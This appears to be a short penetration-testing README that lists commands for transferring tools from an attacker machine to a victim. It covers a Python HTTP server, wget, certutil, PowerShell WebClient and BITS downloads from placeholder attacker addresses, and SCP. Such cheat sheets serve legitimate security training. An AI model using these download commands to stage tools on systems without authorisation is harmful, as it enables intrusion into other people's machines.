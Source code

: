 # tool-transfer

In the beginning of my journey I was struggling with getting my scripts and programs from machine to another. In this repo my objective is to find every way you can transfer your tools!

### HTTP

Set up an HTTP server on your attacker machine and download the files from the victim machine. The hosted file must be in the same directory where you execute this command.

python3 -m http.server $port$

python -m SimpleHTTPServer $port$

From the victim machine you can use any browser to navigate to the IP address and download the files or the following commands:

### CMD

wget http://$attacker_address$/$filename$

certutil -urlcache -split -f "http://$attacker_ip$:$port$/$filename$" $output-filename$

### Powershell

powershell "(New-Object System.Net.WebClient).Downloadfile('http://$ATTACKER_IP$:$port$/$filename$','$output-filename$')"

curl http://$attacker_address$/$filename$ -O $output-filename$
or
Invoke-WebRequest http://$attacker_address$/$filename$ -O $output-filename$

powershell.exe -c (Start-BitsTransfer -Source "http://$attacker_ip$/$filename$ -Destination C:\temp\$filename$")

### SSH

If you have an SSH session you can use SCP command to download files. To download/upload directories use the -r (recursive) switch

Downloading files from the host:

scp username@from_host:file.txt /local/directory/

Uploading files to the host:

scp file.txt username@to_host:/remote/directory/
